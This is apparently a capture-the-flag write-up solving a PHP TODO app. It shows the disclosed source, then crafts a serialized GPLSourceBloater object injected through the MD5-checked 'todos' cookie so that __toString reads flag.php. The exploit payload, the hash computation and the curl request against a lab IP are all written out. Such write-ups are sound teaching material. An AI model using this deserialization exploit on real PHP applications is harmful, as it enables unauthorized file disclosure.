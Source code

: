 # Web Exotic Attacks TODO App

We’re given a basic TODO web app with a cookie-based storage and source disclosure via `?source`.

Visiting `?source` reveals PHP code:

```php
<?php

Class GPLSourceBloater {
    public function __toString()
    {
        return highlight_file('license.txt', true) . highlight_file($this->source, true);
    }
}

if (isset($_GET['source'])){
    $s = new GPLSourceBloater();
    $s->source = __FILE__;

    echo $s;
    exit;
}

$todos = [];

if (isset($_COOKIE['todos'])) {
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 32);
    $m = substr($c, 32);

    if(md5($m) === $h) {
        $todos = unserialize($m);
    }
}

if (isset($_POST['text']) && strlen($_POST['text']) > 1) {
    $todo = $_POST['text'];

    $todos[] = $todo;
    $m = serialize($todos);
    $h = md5($m);

    setcookie('todos', $h.$m);

    header('Location: ' . $_SERVER['REQUEST_URI']);
    exit;
}

?>
```

- The todos cookie is unserialized if its MD5 hash matches. This is not secure: it uses md5().
- A custom class GPLSourceBloater is present and unserializable.

Class definition from source:

```php
class GPLSourceBloater {
    public function __toString() {
        return highlight_file('license.txt', true) . highlight_file($this->source, true);
    }
}
```

We can inject this object into the cookie. When PHP calls echo $todo, it triggers __toString(), which leaks any readable file.

Serialized PHP object:
```php
a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}
a:1:{...} → array with 1 element

O:16:"GPLSourceBloater" → PHP object

s:6:"source" → set $this->source = "flag.php"
```

```python
import hashlib
s = 'a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}'
print(hashlib.md5(s.encode()).hexdigest())
```
MD5: `760463360e4919ca238d1566fc26661f`

Final Cookie Value (concatenated): 
```
760463360e4919ca238d1566fc26661fa:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}
```

URL-encoded for curl: 
```
todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```
```bash
curl -s "http://141.85.224.99:8002/" \
  -H 'Cookie: todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D' \
  | grep -oE 'SSS\{.*?\}'
```

It returned: **SSS{0bj3ct_1nj3ct10ns_ar3_pa1nfull}**

* It could also been done if we edited the cookie manual to `todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D` and there will be shown the GNU Public License and on the bottom of them the flag.
